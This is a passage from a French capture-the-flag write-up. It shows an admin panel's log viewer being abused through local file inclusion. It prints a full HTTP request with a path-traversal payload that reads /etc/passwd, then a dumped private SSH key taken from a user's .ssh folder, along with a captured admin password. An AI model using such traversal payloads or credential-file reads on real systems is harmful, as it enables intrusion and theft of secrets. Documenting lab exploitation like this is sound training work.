 username=admin&password=pxrAW7a4HNMBw86bc
{{< /code >}}

## Zone d'administration et monitoring des logs

Nous pouvons donc nous authentifier sur le site de _ZedCorp_ avec le compte **admin**. L'interface d'administration propose de visualiser les journaux d'accès et d'erreur du serveur Web. Pour cela, une requête `POST` est envoyée avec le nom du fichier de log en paramètre. Naturellement, on essaye de récupérer un autre fichier et cela fonctionne merveilleusement bien :)

{{< code lang="http" >}}
POST /0cc175b9c0f1b6a831c399e269772661/admin.php HTTP/1.1
Host: ctf.hacklab-esgi.org:5008
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.hacklab-esgi.org:5008/0cc175b9c0f1b6a831c399e269772661/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Connection: close
Cookie: PHPSESSID=urj94cee9424reig3bje31b0a2
Upgrade-Insecure-Requests: 1

log=../../../../../../../../etc/passwd
{{< /code >}}
{{< code lang="plaintext" icon="file-text-o" title="/etc/passwd" >}}
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
test:x:1001:1001:,,,:/home/test:/usr/sbin/nologin
trobin:x:1004:1004:Thibaud Robin,8,0145674356,0145674356,Trainee full stack developer:/home/trobin:/bin/bash
{{< /code >}}

## Se connecter en SSH

N'oublions pas que l'énoncé comportait un port SSH (TCP/5007). Précédement, nous avons vu qu'il y a deux utilisateurs sur le serveur : **test** et **trobin**. En utilisant la LFI, nous pouvons trouver les clés RSA de l'utilisateur **test** dans le répertoire `/home/test/.ssh` :

{{< code lang="plaintext" icon="file-text-o" title="/home/test/.ssh/id_rsa" >}}
svu/zHqzzrRsm1un3Ikcvy0lnG31sg6kJ8EXH6ECgYEApe/Wv2KD+EDRwf4BQ19W
a2gPYIQgqraR+WHG0mL3diC58Y+uJMz3rulV47KZuYNrLL05vfLxNcEbRoKW6H1g
NmFXExuFkuPpG6oLEYVM62Bm8pksA/tkC907CY/cG4sGUYB4Rv0qKHCXrByMqp/u
SoqMrjef2P/wD2EfzCkz2AECgYBIr98m6VrLUvri7vVqjFSewcTR1k+zyF7byLFt
3Hj9WG7xYvruq2w/5TK4bGYXbopxOj5naab9EVvsyF5+twc/vPiy2VjT76Z1fwJG
BmEHuy9V07r2FWnYWlQHyKYvKPJ04JPdWgmOdicDXLJCCdq4gV5FD6bLmdVrrj0p
CSSSQQKBgQCI3TUMYeR/4+86B6i2sldPVtn52QrOHeaDwRfZ1Z7TRYPY6gIvKBLd
VVU6YcP0KwZUHeUOC7qNxSCTnB7FkANad+D/7a0MGqAGCmWChS5GD6zpqhW+tKkY
zc9Ur+20TJHIwAKloaZLiMdcpdyFUQQRStXCGD6wqbw8UxGfx1Fd0g==
-----END RSA PRIVATE KEY-----
{{< /code >}}
